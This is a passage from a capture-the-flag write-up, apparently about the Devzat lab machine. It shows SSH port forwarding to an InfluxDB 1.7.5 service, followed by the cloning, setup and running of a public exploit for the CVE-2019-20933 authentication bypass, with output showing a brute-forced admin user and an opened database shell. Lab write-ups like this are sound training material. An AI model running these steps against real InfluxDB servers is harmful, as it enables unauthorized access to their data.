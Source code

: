 Looks like port `8443` is `devzat` from before. Connecting with `ssh -l william localhost -p 8443` shows that it is. So, we can ignore that. Thus, our port forwards only needs to contain port `8086`: `ssh -i /home/kali/.ssh/id_rsa -L 8086:localhost:8086 patrick@devzat.htb`.

### InfluxDB

Port `8086` is much more interesting. It contains "InfluxDB http admin 1.7.5". However, navigating to `http://localhost:8086/` just shows `404 page not found`.

Searching "InfluxDB http admin 1.7.5" online finds the [HackTricks page](https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb) on it, which is really great. We learn that InfluxDB is "an open-source time series database (TSDB) developed by the company InfluxData. A time series database (TSDB) is a software system that is optimized for storing and serving time series through associated pairs of time(s) and value(s)."

The second result when searching "InfluxDB http admin 1.7.5" is [LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933). According to the repo: "InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in services/httpd/handler.go because a JWT token may have an empty SharedSecret (aka shared secret). Exploit check if server is vulnerable, then it tries to get a remote query shell. It has built in a username bruteforce service."

Let's try to use this exploit since the target is running a vulnerable version of InfluxDB.

```
git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933.git
cd InfluxDB-Exploit-CVE-2019-20933
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
python __main__.py
```

Running the exploit:

```
Host (default: localhost): 
Port (default: 8086): 
Username <OR> path to username file (default: users.txt): 

Bruteforcing usernames ...
[v] admin

Host vulnerable !!!

Databases:

1) devzat
2) _internal

.quit to exit
[admin@127.0.0.1] Database: devzat

Starting InfluxDB shell - .back to go back
```
